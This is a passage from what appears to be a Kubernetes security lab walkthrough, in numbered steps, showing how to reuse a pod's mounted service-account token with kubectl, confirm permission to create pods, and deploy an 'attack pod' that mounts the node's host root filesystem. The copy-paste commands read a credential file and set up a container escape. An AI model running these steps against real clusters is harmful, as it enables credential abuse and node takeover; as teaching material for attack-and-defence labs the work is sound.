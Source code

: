     export DIR="/run/secrets/kubernetes.io/serviceaccount"

    alias kubectl="/data/kubectl --token=`cat $DIR/token` \
    --certificate-authority=$DIR/ca.crt \
     --server=https://kubernetes.default.svc.cluster.local:443"
    ```

69. Now let's ask if we are allowed to create pods:

    ```shell
    kubectl auth can-i create pods
    ```

70. We got a yes! Take a look at my attack-pod.yaml file:

    ```shell
    cat attack-pod.yaml
    ```

71. In that YAML file, take a look at the `containers:` section's `volumeMounts:` list - this tells Kubernetes what named "volume" to mount onto what path in the container.

72. Also, note how the named volume `mount-root-into-mnt` is described in the `volumes:` section, showing what path from the node's host filesystem gets that name.

73. Finally, in that YAML file, notice that the container image we've chosen is `k8s.gcr.io/redis:e2e`.  We chose that because it's likely cached on the Kubernetes nodes. How would you determine this? You want to run a command like this, with the correct values for `STR1` and `STR2`:

    ```
    kubectl get pod redis-master-STR1-STR2 -o yaml | grep "image:"
    ```

    Here's a version you can copy and paste:

    ```shell
    kubectl get pod \
     `kubectl get pods | grep redis-master | awk '{print $1}' ` \
     -o yaml | grep "image:"
    ```

74. Let's deploy this attack pod, with a `kubectl apply -f`:

    ```shell
    kubectl apply -f attack-pod.yaml
    ```

    You can also tell Kubernetes to let you know when the new pod is ready:

    ```shell
    kubectl wait --for=condition=ready pod/attack-pod
    ```

75. Let's see where our pod is running, using:

    ```shell
    kubectl get pods -o wide
    ```
